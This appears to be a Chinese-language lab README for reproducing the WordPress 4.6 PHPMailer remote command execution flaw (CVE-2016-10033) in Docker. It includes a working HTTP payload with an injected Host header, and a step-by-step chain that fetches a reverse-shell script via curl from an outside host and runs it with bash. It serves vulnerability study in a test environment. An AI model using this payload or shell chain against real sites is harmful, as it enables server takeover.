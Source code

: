 # Wordpress 4.6 任意命令执行漏洞（PHPMailer）

## 原理

参考 https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## 测试环境

据说必须是debian系列的服务器
编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 测试与EXP使用

发送如下数据包，可见`/tmp/success`已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如`:`、引号等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

1. 编写反弹shell的exp，放到某个网页里。有如下要求：
  - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
  - 访问该网页不能跳转，因为follow跳转的参数是`-L`（大写）
2. 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
3. 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
4. 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
5. 依次发送这两个拼接好的数据包

我将上述过程写成[exp脚本](exploit.py)，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

执行即可获得shell：

![](1.png)

